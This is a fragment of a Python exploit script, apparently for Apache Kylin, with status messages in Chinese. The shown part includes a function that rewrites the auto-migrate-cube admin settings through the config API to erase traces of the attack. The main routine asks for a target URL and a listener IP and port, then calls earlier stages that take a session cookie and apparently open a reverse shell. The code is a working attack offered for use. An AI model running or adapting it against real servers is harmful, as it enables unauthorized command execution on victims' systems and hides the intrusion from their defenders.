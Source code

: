 ```python
        print("\033[31m[x] 漏洞利用失败 \033[0m")
        sys.exit(0)

def POC_4(target_url, cookie):
    config_url = target_url + "/kylin/api/admin/config"

    key = ["kylin.tool.auto-migrate-cube.enabled", "kylin.tool.auto-migrate-cube.src-config",
           "kylin.tool.auto-migrate-cube.dest-config"]
    value = ["flase", "echo;echo;echo", "None"]

    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Authorization": Authorization,
        "Accept": "application/json, text/plain, */*",
        "Content-Type": "application/json;charset=UTF-8",
        "Pragma": "no-cache",
        "Cookie": "project=null;JSESSIONID=" + cookie
    }

    for i in range(0,3):
        data = """{"key":"%s","value":"%s"}""" % (key[i], value[i])
        try:
            response = requests.put(url=config_url, headers=headers, data=data, timeout=20)
            if response.status_code == 200:
                print("\033[32m[o] 成功将" + key[i] +"设置为" + value[i] +"\033[0m")
            else:
                print("\033[31m[x] 设置" + key[i] +"为" + value[i] +"失败\033[0m")
                sys.exit(0)
        except:
            print("\033[31m[x] 漏洞利用失败 \033[0m")
            sys.exit(0)
    print("\033[35m[o] 成功清理痕迹\033[0m")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    try:
        cookie,Authorization = POC_1(target_url)
    except:
        print("\033[31m[x] 漏洞利用失败 \033[0m")
        sys.exit(0)
    IP = str(input("\033[35m请输入监听IP   >>> \033[0m"))
    PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
    POC_2(target_url, cookie, IP, PORT, Authorization)
    POC_3(target_url, cookie)
```
